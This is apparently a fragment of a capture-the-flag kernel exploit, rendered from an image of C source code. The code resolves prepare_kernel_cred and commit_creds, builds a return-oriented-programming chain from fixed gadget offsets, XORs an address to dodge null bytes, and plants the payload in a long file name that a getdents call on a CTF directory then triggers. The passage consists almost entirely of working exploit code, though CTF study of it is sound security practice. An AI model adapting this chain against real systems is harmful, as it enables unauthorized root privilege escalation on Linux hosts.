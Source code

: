     unsigned long kernel_base, sys_chmod;

    kernel_base = get_kernel_sym("startup_64");

    prepare_kernel_cred = (prepare_kernel_cred_t)get_kernel_sym("prepare_kernel_cred");
    commit_creds = (commit_creds_t)get_kernel_sym("commit_creds");


    payload = malloc(0x100);
    memset(payload, 0x00, 0x100);

    fake_stack = (unsigned long *)(payload);

    *fake_stack ++= kernel_base + 0x1c251;           //pop rax ; ret
    *fake_stack ++= 0x4141414141414141;

    *fake_stack ++= kernel_base + 0x1cc22e;          //pop rcx ; ret
    *fake_stack ++= (0x4141414141414141 ^ (unsigned long)kernel_code);
                                                    // can't send null bytes xoring address

    *fake_stack ++= kernel_base + 0x2c9efc;          // xor rax, rcx ; ret


    *fake_stack ++= kernel_base + 0x230bf6;         //push rsi ; call rax


    memcpy(file_name + 122, payload, 0x100);
    puts(file_name);


    fd = open(file_name, O_RDWR|O_CREAT, 0777);
    close(fd);


    fd = open("/home/ctf/", O_RDONLY | O_DIRECTORY);
    nread = syscall(SYS_getdents, fd, buf, BUF_SIZE);

    return 0;
}

{{< /codeblock >}}